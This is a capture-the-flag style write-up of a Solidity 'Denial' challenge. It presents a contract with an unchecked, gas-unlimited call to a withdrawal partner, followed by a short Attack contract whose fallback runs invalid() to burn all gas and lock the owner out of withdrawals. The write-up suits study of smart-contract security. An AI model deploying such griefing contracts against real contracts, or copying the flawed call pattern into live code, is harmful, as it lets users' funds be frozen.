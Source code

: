 <div align="center">

# Denial

</div>



**Denial (Vulnerable Code) :**


<details>
<summary>Code</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

```

</details>

---------

**Approach and Exploit Method Including Code :** 

1. **Understand the contract**

   - `Denial` allows a `partner` to withdraw 1% of the contract balance alongside the `owner`.  
   - `withdraw()` calls the `partner` using a low-level `.call{value: ...}("")` **without gas limit checks**, then transfers the owner's share.  
   - **Key idea:** A malicious partner can **consume all gas or revert indefinitely**, preventing the owner’s transfer from completing and effectively **locking the owner out**.


2. **Vulnerability Highlight (key part)**


```solidity
function withdraw() public {
    uint256 amountToSend = address(this).balance / 100;
    partner.call{value: amountToSend}(""); // untrusted call — partner can revert or use all gas
    payable(owner).transfer(amountToSend);
}
```


## Exploit Code

```Solidity

contract Attack {
    constructor (Denial target){
        target.setWithdrawPartner(address(this));
    }
    fallback() external payable { 
        assembly {
            invalid()
        }
    }
}


```

---


